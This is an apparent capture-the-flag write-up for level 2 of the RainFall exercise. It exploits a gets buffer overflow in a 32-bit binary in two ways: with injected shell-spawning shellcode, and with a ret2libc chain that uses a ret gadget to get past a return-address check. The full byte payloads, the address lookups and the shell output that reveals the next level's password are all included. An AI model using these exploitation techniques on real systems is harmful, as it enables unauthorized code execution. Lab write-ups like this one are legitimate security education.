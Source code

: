 # Level 2

## Answer
Our C source code generates the same assembly code as the original binary. Compile it as follows:
```
gcc -fno-stack-protector source.c
```

Let's take a look at the source code:
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

void p(void)
{
    fflush(stdout);

    int buffer[16];
    gets(buffer);

    int tmp = buffer[20];
    if ((tmp & 0xb0000000) == 0xb0000000)
    {
        printf("(%p)\n", tmp);
        exit(1);
    }
    puts(buffer);
    strdup(buffer);
}

int main(void)
{
    p();
}
```

Let's focus on the `p` function. It reads input using the `gets` function, which is known to be unsafe due to its potential for causing buffer overflows, as it lacks a mechanism to limit the number of bytes read.

In this case, the program's stack is allocated 104 bytes:
```
# Allocating 104 bytes on the stack
0x080484d7 <+3>:     sub    $0x68,%esp

# Calculate the address of ebp - 76, since we allocated 104 bytes for the stack and since our next variable start at ebp - 12, our buffer will therefore be 64 bytes (here buf is an int array, so 64 bytes = 16 * 4 bytes)
0x080484e7 <+19>:    lea    -0x4c(%ebp),%eax

# Move 4 bytes above ebp aka the return address into eax
0x080484f2 <+30>:    mov    0x4(%ebp),%eax

# Moving the return address into ebp - 12 which is our next variable
0x080484f5 <+33>:    mov    %eax,-0xc(%ebp)
```

Although we allocated 104 bytes on the stack, our buffer only starts at ebp - 76, which means that we only have to write 76 bytes before overflowing the stack. Furthermore, we need to write 4 bytes to reach the return address so 80 bytes in total (as shown in the assembly code above). Anything written beyond those 80 bytes will be treated as an address (only the 4 next bytes) and jumped to by the `ret` instruction of the `p` function.

There's different ways to solve this challenge, we'll see two of them. First the intended way (I assume) with a ret2shellcode and then the ret2libc way.

### Ret2Shellcode
We opt for a shellcode designed to spawn a shell. This shellcode, taken from the [Exploit Database](https://www.exploit-db.com/exploits/41757), is compact and effective for our purpose:

`\x31\xc9\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80`

To redirect the execution, after the buffer overflow, we need an address. We use `ltrace` to find that `strdup` returns to `0x0804a008`.

```bash
$ ltrace ./level2
[...]
strdup("") = 0x0804a008
```

Since `strdup` allocates the buffer that was read by `gets`, the address of the shellcode will be stored at `0x0804a008` (The address that was returned by strdup).

So our payload will be:
```
shellcode + padding + address of shellcode
Alternatively, you could place the padding before the shellcode, using NOPs.

"\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80" + "\x90"*(80-21) + "\x08\xa0\x04\x08"

The padding is 80 - 21 because the shellcode is 21 bytes long.
```

Alright let's try it:
```bash
level2@RainFall:~$ (python -c 'print("\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80" + "\x90"*(80-21) + "\x08\xa0\x04\x08")' && cat) | ./level2
j
 X�Rh//shh/bin��1�̀������������������������������������������������������
cat /home/user/level3/.pass
492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02
```

Perfect, let's move to the other solution.

### Ret2Libc
Ret2Libc (Return-to-Libc) is an exploit technique that doesn't require injecting shellcode but instead redirects the program flow to execute existing library functions.

A typical Ret2Libc exploit is constructed as follows:
```
padding + address of system + address of exit + address of "/bin/sh"

The address of exit is actually optional, but not providing it will cause the program to crash after executing the system function.
```

We, therefore, need the addresses of the `system`, `exit` functions and the string `/bin/sh` in memory. These are found using GDB:

```bash
# System
(gdb) info function system
0xb7e6b060  __libc_system
0xb7e6b060  system

# Exit
(gdb) info functions exit
0x080483d0  _exit
0x080483d0  _exit@plt

# /bin/sh
(gdb) info proc mappings
[...]
0xb7e2c000 0xb7fcf000   0x1a3000        0x0 /lib/i386-linux-gnu/libc-2.15.so
[...]
(gdb) find 0xb7e2c000, 0xb7fcf000, "/bin/sh"
0xb7f8cc58
1 pattern found.
```

However we'll need to include an extra step because of the following lines:
```c
if ((tmp & 0xb0000000) == 0xb0000000)
{
    printf("(%p)\n", tmp);
    exit(1);
}
```

Ealier, I mentionned that the return address was put into our next variable, which is `tmp`. So the `&` operator, along with the `0xb0000000` mask is used to check if our return address most significant byte is equal to `0xb`. If it is, the program will exit. So we need to find an address that doesn't start with `0xb`. 

Given that the address of the `system` function begins with `0xb`, it cannot be directly used. So we'll have to include the address of a `ret` instruction in our payload. When the program attempts to return to this address, the `ret` instruction pops the address of `system` into the EIP register, causing the program to jump to `system`.


Alright, let's craft our payload:
```
reminder: padding + address of system + address of exit + address of "/bin/sh"

0804853e b7e6b060 080483d0 b7f8cc58
"\x90"*80 + "\x08\x04\x85\x3e" + "\xb7\xe6\xb0\x60" + "\x08\x04\x83\xd0" + "\xb7\xf8\xcc\x58"
```

Let's run it:
```bash
level2@RainFall:~$ (python -c 'print("\x90"*80 + "\x08\x04\x85\x3e"[::-1] + "\xb7\xe6\xb0\x60"[::-1] + "\x08\x04\x83\xd0"[::-1] + "\xb7\xf8\xcc\x58"[::-1])' && cat) | ./level2
����������������������������������������������������������������>������������>`��X���
cat /home/user/level3/.pass
492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02
```

We are now level3! Let's move on to the next level.
